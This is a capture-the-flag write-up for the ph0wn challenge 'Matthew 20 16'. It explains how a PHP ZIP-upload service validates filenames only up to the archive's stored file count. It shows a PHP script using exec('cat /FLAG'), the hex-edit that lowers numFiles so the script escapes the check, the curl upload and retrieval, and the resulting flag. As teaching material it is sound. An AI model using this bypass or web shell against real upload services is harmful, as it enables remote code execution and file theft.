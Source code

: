# Matthew 20 16 by Savino

This challenge was created by *Savino*. 

## Description

Pico said to them: those who are last now will be first then, and those who are first will be last

[http://chal.ph0wn.org:9920](http://chal.ph0wn.org:9920)

## Home page:

When you navigate to the challenge main page, you observe a picture of Pico and 3 sheets composing the work ZIP hanged with the clothes.

![Notice the word ZIP is hanging](./images/matthew-pico.png){ width=50% }

A closer look at the HTML page shows a very simple HTML with an unexpected description meta tag:

```html
<html>
<head>
<meta name="description" content="ZGlhZ3JhbS5qcGVn">
<title>Matthew 20:16</title>
<style>
...
```

This is base64:

```
$ echo "ZGlhZ3JhbS5qcGVn" | base64 -d
diagram.jpeg
```

If we navigate to `http://chal.ph0wn.org:9920/diagram.jpeg`, we can look at the diagram of the whole application.

## Flow

The first component of the application is listening for ZIP files (as also referenced in the picture of the home page).
Then, the code is verifying whether this ZIP file is small enough (we don't yet know what this means).
If this condition is successful, a new object is created by using the ZipArchive class.
From the syntax and from a quick research on the web, we can find that we are dealing with a PHP application.
Then, the app is looping on the numFiles attributes of the created ZIP. 
According to the PHP manual, this value refers to the `number of files in archive`.
What the app is doing is then checking each filename against the regex `/^[a-z]+$/`: basically, filenames inside the uploaded ZIP files must only contain letters (no dots or numbers or any other characters).
If all the conditions are satisfied, the content of the uploaded ZIP files is extracted with the unzip function and some info are printed.

## Challenge reconnaissance

Let's try to upload an archive with 2 pictures.

```
zip upload.zip ./file1.jpeg ./file2.jpeg
curl http://chal.ph0wn.org:9920/ -F zip=@upload.zip
```

When uploading the files we receive the following message.

`<div class="error">Only small zips please</div>`

The code is producing an error and is asking for a smaller archive.
Thus, we are not bypassing the first check.
Let's upload a ZIP with 2 empty files:

```
touch a.empty
touch b.empty
zip upload.zip ./a.empty ./b.empty`
curl http://chal.ph0wn.org:9920/ -F zip=@upload.zip
```

What we get as a response is:

`<div class="error">I don't like this file: a.empty</div>`

We are now hitting the second check with the regex on the filenames.
Let's try with two files that would match the regex:

```
touch a
touch b
zip upload.zip ./a ./b
curl http://chal.ph0wn.org:9920/ -F zip=@upload.zip
```

We now see the upload is successful and a directory has been created for us:

`<div class="success">The following directory has been created for you 'uploads/0ea8592bfcdf33d75385a3da1bdb12e7'<br>Your files are inside</div>`

If we navigate:

`http://chal.ph0wn.org:9920/uploads/0ea8592bfcdf33d75385a3da1bdb12e7/a`

`http://chal.ph0wn.org:9920/uploads/0ea8592bfcdf33d75385a3da1bdb12e7/b`

Our files are there and we can see them.
How do we now get the flag in `/FLAG`? 

At this point, we know that is not possible to update a PHP file (or any other file with extensions that will be executed) with a simple upload.

## The bug

According to the [ZIP manual](https://en.wikipedia.org/wiki/ZIP_(file_format)), the `numFiles` parameter is a hard-coded record into the archive at creation time.
If one modifies that value such as to be lower than the actual number of files inside the archive, the script will only check that the FIRST filenames match the regex, while the LAST ones will not be checked. Nevertheless, in the last step when `unzip` is called, also the LAST files will be extracted and will be available to be executed.

## Getting the FLAG

Let's than create a PHP file that will allow us to read the `/FLAG` file. 
For example:

`cat secondfile.php` gives

```
<?php
$output=null;
$retval=null;
exec('cat /FLAG', $output, $retval);
echo "Returned with status $retval and output:\n";
print_r($output);
?>
```
Then let's create an archive with a first empty file whose filename matches the regex and the php file above.

```
touch firstfile
zip upload.zip firstfile secondfile.php
```

Now with an hexadecimal editor, we modify the records in the zip file that indicate the number of files in the archive, setting that number to 1.

![Better than a raw hexadecimal editor, we can edit the ZIP file with ImHex editor and apply the ZIP pattern -- Cryptax note](./images/imhex-zipedit.png){ width=60% }

Let's upload the archive now.

`curl http://chal.ph0wn.org:9920/ -F zip=@upload.zip`

We get a successful response, from which we can read the directory that has been created for us:

`<div class="success">The following directory has been created for you 'uploads/0ea8592bfcdf33d75385a3da1bdb12e7'<br>Your files are inside</div>`

We can now navigate to our secondfile.php to read the flag:

```
$ curl http://chal.ph0wn.org:9920/uploads/0ea8592bfcdf33d75385a3da1bdb12e7/secondfile.php
Returned with status 0 and output:
Array
(
    [0] => ph0wn{S0_l4sT_fiL3s_n0w_wIlL_bE_tH3_fiRSt_th3n_AnD_WIll_b3_3x3cuTeD}
)
```

Flag is : `ph0wn{S0_l4sT_fiL3s_n0w_wIlL_bE_tH3_fiRSt_th3n_AnD_WIll_b3_3x3cuTeD}`

\newpage
